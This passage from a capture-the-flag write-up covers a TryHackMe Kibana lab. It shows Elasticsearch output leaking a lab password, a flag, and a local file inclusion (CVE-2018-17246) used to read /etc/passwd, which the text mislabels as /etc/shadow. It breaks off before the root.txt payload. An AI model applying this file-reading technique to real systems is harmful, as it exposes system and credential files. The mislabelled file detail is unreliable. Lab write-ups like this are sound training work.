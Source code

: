 And this is the result of running the script:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_stalk$ ./scripy.py
{
    "took": 14,
    "timed_out": false,
    "_shards": {
        "total": 6,
        "successful": 6,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1,
        "max_score": 2.0136302,
        "hits": [
            {
                "_index": "messages",
                "_type": "_doc",
                "_id": "73",
                "_score": 2.0136302,
                "_source": {
                    "sender": "mary",
                    "receiver": "wendy",
                    "message": "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
                }
            }
        ]
    }
}
```

### 2 - Read the contents of the /root.txt file
```
someELKfun
```

Researhcing Kibana version 6.4.2 from our scan results reveals a LFI vulnerability that we can leverage to view `/root.txt` ([CVE-2018-17246](https://www.cvedetails.com/cve/CVE-2018-17246/)).

Starting with a PoC to include `/etc/passwd` helped, because it showed to look for errors in the log file running on port 8000. After trying various directory traversals and checking the log after each one we were able to get the contents of `/etc/shadow`:

```
{"message":"SyntaxError: /etc/passwd: Unexpected token, expected ; (1:8)\n> 1 | root:x:0:0:root:/root:/bin/bash\n    |         ^\n  2 | bin:x:1:1:bin:/bin:/sbin/nologin\n  3 | daemon:x:2:2:daemon:/sbin:/sbin/nologin\n  4 | adm:x:3:4:adm:/var/adm:/sbin/nologin\n
```

We get a SyntaxError because the contents of `/etc/shadow` were incldued int he program. Moving from here, we can create the payload for `root.txt` which looked like this:
